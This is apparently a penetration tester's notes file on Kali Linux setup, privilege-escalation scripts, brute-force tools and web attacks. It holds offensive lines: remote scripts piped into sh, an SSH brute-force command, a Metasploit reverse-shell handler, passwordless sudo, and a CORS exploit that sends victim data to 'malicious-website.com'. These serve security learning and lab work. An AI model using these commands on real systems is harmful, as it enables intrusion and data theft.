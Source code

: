 
KALI LINUX SETUP:
------------------

# TO FIX - from some unknown reason basic $SHELL is -> /bin/zsh -> SAME IN LAB -> FIX THAT

sudo apt -y install jq gobuster seclists jd-gui socat masscan seclists 

~/.vimrc 

set syntax
colorscheme desert | industry 
set nu 

chown kali:kali /usr/share/wordlists 

git clone https://github.com/swisskyrepo/PayloadsAllTheThings

git clone https://github.com/danielmiessler/SecLists

git clone https://github.com/gynsty/wordlists

SUDO no password: myuser ALL=(ALL) NOPASSWD: ALL

install locate 
sudo updatedb

linux-exploit-suggester - wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O linux-exploit-suggester.sh

linux-exploit-suggester2 - wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl -O linux-exploit-suggester2.sh 

Linux linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh -> to download 

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh -> to execute 

Windows: https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/carlospolop/PEASS-ng

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

curl -L https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat > winpeas.bat 

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe > winpeas.exe 

Burpsuite will be probably not up to date. 

Dirbuster /usr/bin/dirbuster -> increase memory limit 

FIX HISTSIZE 
HISTFORMAT - too keep timeframe: export HISTTIMEFORMAT=’%F %T ‘

INSTALL go:

https://tzusec.com/how-to-install-golang-in-kali-linux/

https://golang.org/dl/
Download the latest version for Linux – “gox.xx.x.linux-amd64.tar.gz”

Open your terminal and navigate to your downloads folder
cd /root/Downloads
Extract the files
tar -C /usr/local/ -xzf go1.13.6.linux-amd64.tar.gz
Add variables for GO by modifying “~/.bashrc”
vim ~/.bashrc
Add the following paths to the end of the file
export GOPATH=/root/go-workspace
export GOROOT=/usr/local/go
PATH=$PATH:$GOROOT/bin/:$GOPATH/bin
Now we need to refresh the bashrc to get the updated variables
source ~/.bashrc
Now we just need to verify that everything is correct configured and we can do that by creating a simple ‘hello world’ program in Go.
vim helloworld.go
Add the following code to the file:
package main
import "fmt"
func main() {
fmt.Printf("Hello world!\n")
}
Then save the file and try to run the program:
go run helloworld.go

UPDATE:
--------
searchsploit -u -> update serchsploit 

#####################################################
Password brute-force tools:

patator, hydra, medusa, cupp, crunch 

curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin 

This works but put user@HOST ALWAYS at the end:

./ssb -w /tmp/slovnik.txt -c 1000 -p 2226 user@192.168.1.20

https://github.com/kitabisa/ssb

###################################################
WEB brute-force

dirb
gobuster 
dirstalk
SKIPFISH
wfuzz
fuff
		  
##################################################3

jd_gui -> up to date -> install fresh one 

python -c 'import pty; pty.spawn("/bin/sh")'

https://netsec.ws/?p=337

find / -writable 

w3m as alternative to wget 

To list all installed modules from a python console without pip, you can use the following command:

>>> help("modules")

import requests
URL = "https://instagram.com/favicon.ico"
response = requests.get(URL)
open("instagram.ico", "wb").write(response.content)

https://www.codingem.com/python-download-file-from-url/

https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c

Openssl download file:
-------------------------
(printf "GET $PATH HTTP/1.0\r\nHost: $HOST\r\n\r\n"; sleep 10) | \
    openssl s_client -connect $HOST:443 -quiet) > /tmp/output.tmp

Identify methods: 

These methods are named as follows:
• doGet
• doPost
• doPut
• doDelete
• doCopy
• doOptions

protected void doGet(HttpServletRequest req, HttpServletResponse resp)

LOOK FOR: request.getParameter

str. 138 SQL injection 

---------
CORS:
--------
https://portswigger.net/web-security/cors

A C A O - Access Control Allow Origin 

Access-Control-Allow-Credentials = true -> allowing to send cookies etc with request 

XMLHttpRequest:

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};

---------------------
MULTI HANDLER
---------------------

msfcli is deprecated since 2015 

msfconsole -x "use exploit/multi/handler; set RHOST [IP]; set LPORT [PORT];set PAYLOAD generic/reverse_shell_tcp" 

---------------------
SimpleHTTPServer:
---------------------

BUT KALI DOES NOT HAVE SimpleHTTPServer USE INSTEAD:

python3 -m http.server --bind 127.0.0.1 8080

----------------------
Simple DNS server 
-----------------------

dnschef -i interface -p port --logfile LOGFILE


